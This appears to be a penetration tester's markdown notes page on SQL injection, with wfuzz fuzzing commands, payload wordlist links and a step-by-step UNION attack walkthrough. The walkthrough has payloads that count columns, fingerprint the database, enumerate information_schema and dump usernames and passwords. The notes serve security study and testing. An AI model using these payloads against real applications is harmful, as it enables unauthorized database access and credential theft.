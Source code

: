 # SQLi

## Cheatsheets

- [Portswigger SQLi Cheatsheet](https://portswigger.net/web-security/sql-injection/blind)

## Detection

### Wordlists
- https://github.com/PenTestical/sqli
- https://github.com/payloadbox/sql-injection-payload-list
- https://0x1.gitlab.io/web-security/web-attack-payloads-wordlist/
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection

### Examples

#### GET Request
```bash
wfuzz -c -z file,/usr/share/wfuzz/wordlist/Injections/hugeSQL.txt "http://127.0.0.1/index.php?id=FUZZ"
```

#### POST Request
```bash
wfuzz -c -z file,/usr/share/wfuzz/wordlist/Injections/hugeSQL.txt -d "username=admin\&password=FUZZ" http://127.0.0.1/admin
```

## Techniques

- [Retrieving hidden data](https://portswigger.net/web-security/sql-injection#retrieving-hidden-data)
- [Subverting application logic](https://portswigger.net/web-security/sql-injection#subverting-application-logic)
- [UNION attacks](https://portswigger.net/web-security/sql-injection/union-attacks)
- [Blind SQL injection](https://portswigger.net/web-security/sql-injection/blind)

### UNION Attacks

For `UNION` query to work, two key requirements must be met:

1. The individual queries must return the same number of columns
2. The data types in each column must be compatible between the individual queries

To carry out a SQL injection UNION attack, make sure that your attack meets these two requirements. This normally involves finding out:

1. How many columns are being returned from the original query.
2. Which columns returned from the original query are of a suitable data type to hold the results from the injected query

#### Determine the number of columns required

The first method involves injectin ga series of `ORDER BY` clauses and incrementing the specified column index until an error occurs. For example, if the injection point is a quoted string within the `WHERE` clause of the original query, you would submit:

```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```

When the specified column index exceeds the number of actual columns in the result set, the database returns an error, such as: `The ORDER BY position number 3 is out of range of the number of items in the select list.`

The second method involes submitting a series of `UNION SELECT` payloads specifying a different number of null values:

```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```

If the number of nulls does not match the number of columns, the database returns an error, such as: `All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.`


The application might actually return the database error in its HTTP response, but it may also issue a generic error response. In other cases, it may simply return no results at all. Either way, as long as you can detect some difference in the response, you can infer how many columns are being returned from the query. 

#### Finding columns with a useful data type

After you determine the number of required columns, you can probe each column to test whether it can hold string data. You can submit a series of `UNION SELECT` payloads that place a string value into each column in turn. For example, if the query returns four columns, you would submit:

```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```

If the column data type is not compatible with string data, the injected query will cause a database error, such as: `Conversion failed when converting the varchar value 'a' to data type int.` If an error does not occur, and the application's response contains some additional content including the injected string value, then the relevant column is suitable for retrieving string data. 

#### Retrieving interesting data

When you have determined the number of columns returned by the original query and found which columns can hold string data, you are in a position to retrieve interesting data. 

After determining the name of the table you would like to dump information from, you are able to retrieve the data stored in the database:

```
' UNION SELECT username, password FROM users--
```

#### Retrieve multiple values within a single column

In some cases the query in the previous example may only return a single column.
You can retrieve multiple values together within this single column by concatenating the values together. 

```
-- Oracle
' UNION SELECT username || '~' || password FROM users--

-- MySQL
' UNION SELECT null,concat(username,'~',password) FROM users--
```

#### Examining the Database

To exploit SQL injection vulnerabilities, it's often necessary to find information about the database. This includes:

- The type and version of the database software.
- The tables and columns that the database contains.

You can potentially identify both the database type and version by injecting provider-specific queries to see if one works.

- Microsoft SQL : `SELECT @@version`
- Oracle : `SELECT * FROM v$version`
- PostgreSQL : `SELECT version()`

For example, you could use a `UNION` attack with teh following input: `' UNION SELECT @@version--`
When attempting to determine the type of database you are dealing with, don't forget to change the syntax of the comments as well:

- Oracle : `--comment`
- Microsoft `--comment`, `/*comment*/`
- PostgreSQL: `--comment`, `/*comment*/`, `#comment`
- MySQL: `-- comment`, `/*comment*/`

#### Listing the contents of the database

Most database types (except Oracle) have a set of views called the information schema. This provides information about the database. For example, you can query `information_schema.tables` to list the tables in the database: `SELECT * FROM information_schema.tables`

```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE
=====================================================
MyDatabase     dbo           Products    BASE TABLE
MyDatabase     dbo           Users       BASE TABLE
MyDatabase     dbo           Feedback    BASE TABLE
```

You can then query `information_schema.columns` to list the columns in individual tables: `SELECT * FROM information_schema.columns WHERE table_name = 'Users'`

```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE
=================================================================
MyDatabase     dbo           Users       UserId       int
MyDatabase     dbo           Users       Username     varchar
MyDatabase     dbo           Users       Password     varchar
```

#### Guides
- [Union Based Oracle Injection](http://www.securityidiots.com/Web-Pentest/SQL-Injection/Union-based-Oracle-Injection.html)
- [Oracle Database Specific UNION syntax](https://portswigger.net/web-security/sql-injection/union-attacks#determining-the-number-of-columns-required)


### Blind SQL Injection

Blind SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.

Many techniques such as `UNION` attacks are not effective with blind SQL injection vulnerabilities. This is because they rely on being able to see the results of the injected query within the application's responses. It is still possible to exploit blind SQL injection to access unauthorized data, but different techniques must be used. 